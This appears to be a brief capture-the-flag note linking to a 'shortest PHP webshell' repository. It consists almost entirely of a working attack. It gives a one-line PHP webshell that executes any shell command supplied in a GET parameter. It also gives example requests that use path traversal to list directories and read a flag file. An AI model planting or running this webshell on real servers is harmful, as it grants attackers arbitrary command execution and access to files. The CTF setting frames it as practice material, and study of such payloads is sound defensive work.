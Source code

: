 https://github.com/Xib3rR4dAr/shortest-php-webshell/blob/master/0.php

- Need file upload php longer than 16 bytes
### Payload 
- ```<?=`$_GET[cmd]`;``` 
- ``` test.php?cmd=ls%20-a%20../../../../../../ ```
- ``` test.php?cmd=cat%20../../../../../../flag ```       
